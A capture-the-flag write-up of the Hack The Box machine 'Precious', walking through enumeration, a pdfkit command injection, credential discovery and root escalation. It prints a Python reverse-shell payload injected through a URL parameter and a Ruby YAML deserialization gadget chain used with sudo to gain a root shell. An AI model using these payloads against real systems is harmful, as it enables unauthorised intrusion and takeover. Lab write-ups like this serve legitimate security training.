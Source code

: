   ![image](https://user-images.githubusercontent.com/87700008/205619578-28e109d5-9ede-4b75-95c0-fb74bc635c26.png)

https://app.hackthebox.com/machines/Precious

**Enumeration**:

_Rustscan_:

Started with a qucik Rustscan, found 3 open ports :

![image](https://user-images.githubusercontent.com/87700008/205620631-e8bad937-e8da-432e-b776-fab52239c64b.png)


    sudo rustscan -a 10.10.11.189 -- -A -T4 -vv -oN precious_nmap
    
    Open 10.10.11.189:22
    Open 10.10.11.189:80
    Open 10.10.11.189:8000
    
In the scan results there is a domain observed, i.e. http://precious.htb/

![image](https://user-images.githubusercontent.com/87700008/205621054-4212556d-c02c-4eeb-b170-41b379915db7.png)

So, to consolidate all results:

    On ports 80, nginx/1.18.0 is running
    On port 8000, SimpleHTTPServer 0.6 (Python 3.9.2) is running
    
Added the domain to the /etc/hosts file. After adding the domain browsed through that domain & found there is a website running to convert web page to PDF.
![image](https://user-images.githubusercontent.com/87700008/205623888-22706343-617f-434a-aec1-f55a1e35af90.png)

_Gobuster:_

Scanned the subdomain & vhost using gobuster but nothing found in both the scans:

![image](https://user-images.githubusercontent.com/87700008/205679805-8aa80909-6b18-4a91-ad67-c7b4896bae5d.png)
![image](https://user-images.githubusercontent.com/87700008/205679904-2647b99f-613f-4905-b878-5c9a297929c6.png)

As I didn't get any result from the gobuster scanning I tried some manual enumertaion & checked for the html source but nothing found there are well.😕

Then I thought to play with the webpage & started my own SimpleHttpServer on port 80 & in the parameter part I gave my own http server IP & clicked on submit.
Then the page redirected me to the PDF page of my directory :

![image](https://user-images.githubusercontent.com/87700008/205709502-88986f4c-3997-4ca4-a08c-ce4d9972df65.png)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Initial access:**

I downloaded the file from the page & checked for the metadata where I found the creator as "Generated by pdfkit v0.8.6":
![image](https://user-images.githubusercontent.com/87700008/205710041-713e2058-ed8f-45d4-9302-dd02e32798b1.png)
![image](https://user-images.githubusercontent.com/87700008/205710140-e3420cfd-24ae-443f-891b-4ca04621ff29.png)

I quickly searched for the exploit of "pdfkit 0.8.6" & landed on the page of an article with the PoC pubished by snyk mentioning the command injection vulnerability in the versions lower than 0.8.7, ref : https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
![image](https://user-images.githubusercontent.com/87700008/205710574-556b8712-4458-49f9-94fc-d3af74763033.png)

So as per the article I tried the exploit from myself in this webpage & it's working :

![image](https://user-images.githubusercontent.com/87700008/205711050-746a9e5b-fbff-470e-a021-0cde0a578a0f.png)
![image](https://user-images.githubusercontent.com/87700008/205711105-ae626667-8af6-4d4e-8b58-cfb0d1506e9b.png)
 
 At this point we are confirmed that the page is vulnerbale to the command injection vulnerability.

 I tried different payload here for reverse shell & python3 payload worked for me :
 
    http://IP/?name='%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

And I received the reverse shell :

![image](https://user-images.githubusercontent.com/87700008/205716608-5fa1a95c-a9ef-4fe5-91ba-37f75d7e0828.png)

Stablized the reverse shell:

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export term=XTERM
    stty raw -echo; fg 
    
After searching many directories I found a directory located in ruby user folder name : '.bundle' in which I found another user 'henry' credentials:

![image](https://user-images.githubusercontent.com/87700008/205719193-a3d77efd-1d3e-402f-af69-3cfbdcf03a2e.png)

_User flag_ :

Using those credentials I quickly tried SSH & logged in successfully & retrieved the user flag 🙂(pwn3d!)

![image](https://user-images.githubusercontent.com/87700008/205719767-ab5f9b34-0345-4c98-a65e-9659b8be91d9.png)
![image](https://user-images.githubusercontent.com/87700008/205719911-4e5caa98-3a16-49f9-ac23-0d8f0b7780c9.png)

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Priv Esc:**

Now, as always I started with the manual enumeration & ran 'sudo -l', I got this :

    User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
    
Then I checked for the file content present in '/opt/update_dependencies.rb'. I am confused here at this point as there isn't anything present here whhich looks much helpful. 
Then with lot of searching I found a blog where it's mentioned some flaw in "Yaml.load" parameter which is also available in our file :

![image](https://user-images.githubusercontent.com/87700008/205723673-9d35da55-4701-4d33-be5b-50899f708684.png)
ref : https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

This is vulnerable to "Yaml deserialization" attack:
![image](https://user-images.githubusercontent.com/87700008/205724218-37fec72d-5e49-40c9-b2d6-b6e56816cb6b.png)

I also found a PoC, ref : https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml
So, I created a file name 'dependencies.yml' & used this code taken from the PoC :

    - !ruby/object:Gem::Installer
    i: x
    - !ruby/object:Gem::SpecFetcher
    i: y
    - !ruby/object:Gem::Requirement
    requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod 4777"
         method_id: :resolve

_Root flag:_

And, ran the command :

    sudo /usr/bin/ruby /opt/update_dependencies.rb
    /bin/bash -p
    
This provided us the bash shell with root access 🙂(pwn3d!)

![image](https://user-images.githubusercontent.com/87700008/205726452-39f4a812-6e1c-41b0-b8db-f4b09089985f.png)
